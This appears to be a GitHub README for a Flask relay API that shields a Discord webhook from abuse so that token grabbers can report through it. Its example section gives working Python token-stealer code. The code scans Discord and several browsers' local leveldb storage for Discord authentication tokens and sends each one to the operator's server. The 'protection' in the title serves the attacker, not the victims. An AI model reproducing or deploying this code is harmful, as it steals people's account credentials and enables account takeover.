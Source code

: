 # Discord Webhook Protection

 A simple Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1' # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# constants
API_URL = f'http://{API_IP}:{API_PORT}/grab?secret={SECRET}&token=%s'
LOCAL = os.getenv('LOCALAPPDATA')
ROAMING = os.getenv('APPDATA')
PATHS = {
    'Discord': ROAMING + '\\Discord',
    'Discord Canary': ROAMING + '\\discordcanary',
    'Discord PTB': ROAMING + '\\discordptb',
    'Google Chrome': LOCAL + '\\Google\\Chrome\\User Data\\Default',
    'Opera': ROAMING + '\\Opera Software\\Opera Stable',
    'Brave': LOCAL + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
    'Yandex': LOCAL + '\\Yandex\\YandexBrowser\\User Data\\Default'
}

tokens = []

for platform, path in PATHS.items():
    if os.path.exists(path) is False:
        continue

    path = os.path.join(path, 'Local Storage', 'leveldb')

    for item in os.listdir(path):
        if item[-4:] in ('.log', 'ldb') is False:
            continue

        with open(os.path.join(path, item), errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

for token in tokens:
    try:
        res = requests.get(API_URL % token)  # sends token to your API
    except:
        pass
```

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py`

## TODO

* [ ] Set up a MySQL database to store tokens, used to prevent dupes
* [ ] IP-address based rate limit to prevent abusers from flooding the API
* [ ] Support multiple tokens in a single request using `,` seperator
